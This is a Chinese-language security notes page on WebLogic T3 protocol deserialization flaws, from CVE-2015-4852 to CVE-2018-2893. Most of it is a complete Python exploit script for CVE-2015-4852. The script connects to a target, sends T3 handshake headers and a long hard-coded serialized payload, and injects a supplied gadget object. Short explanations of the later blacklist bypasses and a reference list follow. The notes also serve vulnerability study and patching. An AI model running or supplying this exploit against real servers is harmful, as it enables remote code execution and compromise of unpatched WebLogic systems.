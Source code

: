 - [Weblogic T3协议](#weblogic-t3协议)
  - [CVE-2015-4852](#cve-2015-4852)
    - [Exp](#exp)
    - [总结](#总结)
  - [CVE-2016-0638](#cve-2016-0638)
  - [CVE-2016-3510](#cve-2016-3510)
  - [CVE-2017-3248](#cve-2017-3248)
  - [CVE-2018-2628](#cve-2018-2628)
  - [CVE-2018-2893](#cve-2018-2893)
# Weblogic T3协议
Weblogic T3协议是Weblogic对RMI在Weblogic中的实现协议,在原生JAVA中RMI传输是使用JRMP协议进行传输,在Weblogic中使用RMI則是使用的T3协议,T3协议针对Weblogic主要是有一些特定的增强.
## CVE-2015-4852
T3协议是Weblogic对于JAVARMI通信的实现,在传输过程中会进行序列化和反序列化操作.T3协议攻击的原理就是替换或者增加在T3数据中原本的反序列化对象,因为服务端在获取的序列化对象后肯定会进行反序列化,从而触发反序列化漏洞.
### Exp
```python
#!/usr/bin/python 
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
server_address = (sys.argv[1], int(sys.argv[2])) 
print 'connecting to %s port %s' % server_address 
sock.connect(server_address) 

# Send headers 
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n' 
print 'sending "%s"' % headers 
sock.sendall(headers) 

data = sock.recv(1024) 
print >>sys.stderr, 'received "%s"' % data 
payloadObj = open(sys.argv[3],'rb').read() 

payload='\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00' 
payload=payload+payloadObj 
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78' 
print 'sending payload...' 
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:]) 
#print len(payload) 
sock.send(payload)
```
### 总结
该漏洞主要是利用T3协议进行反序列化来进行反序列化攻击,并不像其它漏洞一样涉及具体的代码漏洞,主要是一种利用思路,主要攻击代码是利用T3协议反序列化的恶意类,也就是各种版本下的Gadgets.后续补丁也是对漏洞使用的利用链关键类进行了黑名单过滤.后续一系列CVE都是绕过黑名单.
## CVE-2016-0638
该漏洞即对上个漏洞补丁的绕过,重新寻找了weblogic.jms.common.StreamMessageImpl的readExternal()进行反序列化来绕过黑名单.
## CVE-2016-3510
原理也是继续绕过黑名单,原理是将反序列化的对象封装进了weblogic.corba.utils.MarshalledObject,然后再对MarshalledObject进行序列化.当字节流反序列化时MarshalledObject不在WebLogic 黑名单里,可正常反序列化,在反序列化时MarshalledObject对象调用readObject时对MarshalledObject封装的序列化对象再次反序列化,这样就逃过了黑名单的检查.
MarshalledObject比较符合需求,即在封装原链的基础上可以通过自身的反序列化来反序列化成员变量.
## CVE-2017-3248
该漏洞则是利用JRMP协议进行了黑名单的绕过
## CVE-2018-2628
绕过CVE-2017-3248
## CVE-2018-2893
绕过CVE-2018-2628  
**参考:**  
https://www.exploit-db.com/exploits/44553  
https://mp.weixin.qq.com/s/hftsZLh_Qp1IcS8z_aM7Xw
https://www.cnblogs.com/afanti/p/10256840.html  
https://www.sohu.com/a/439816103_750628  
https://xz.aliyun.com/t/2479 
https://xz.aliyun.com/t/8241#toc-12  
https://cert.360.cn/report/detail?id=0de94a3cd4c71debe397e2c1a036436f